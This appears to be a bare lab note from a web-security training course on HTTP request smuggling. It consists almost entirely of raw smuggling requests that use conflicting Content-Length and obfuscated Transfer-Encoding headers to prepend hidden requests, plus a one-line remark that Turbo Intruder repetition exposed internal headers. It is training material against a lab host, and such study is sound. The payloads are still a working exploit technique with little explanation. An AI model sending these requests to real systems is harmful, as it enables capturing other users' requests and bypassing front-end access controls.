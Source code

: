 POST / HTTP/1.1
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
tRANSFER-ENCODING: chunked

0

POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close

search=PHONE


---

##### a few requests in turbo and secrete headers were revealed: localhost headers

---

POST / HTTP/1.1
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 124
tRANSFER-ENCODING: chunked

5a
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close

search=PHONE

---

POST / HTTP/1.1
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
tRANSFER-ENCODING: chunked

0

POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close
